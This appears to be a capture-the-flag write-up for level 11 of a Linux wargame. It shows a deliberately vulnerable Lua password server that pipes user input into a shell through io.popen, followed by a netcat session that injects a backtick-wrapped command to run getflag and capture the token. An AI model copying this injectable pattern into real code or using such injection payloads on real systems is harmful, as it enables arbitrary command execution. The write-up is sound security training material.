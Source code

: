 ## LEVEL 11

---

This level is similar to previous levels but this time it's a `.lua` file.

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

In this level, I don't have any hidden file or token file but we have the `echo` command, and our file is owned by flag11.

So, I need to execute `getflag` through the command. Previously, I saw that if I use back quotes `echo` can run the command inside and I will redirect the output of this command; otherwise, `level11` will redirect the output inside `sha1sum`.

```shell
$ nc 127.0.0.1 5151
Password: `getflag > /tmp/flag`
Erf nope..
$ cat /tmp/flag
Check flag. Here is your token: fa6v5ateaw21peobuub8ipe6s
```

---

*Source:*

*https://linux.die.net/man/1/nc*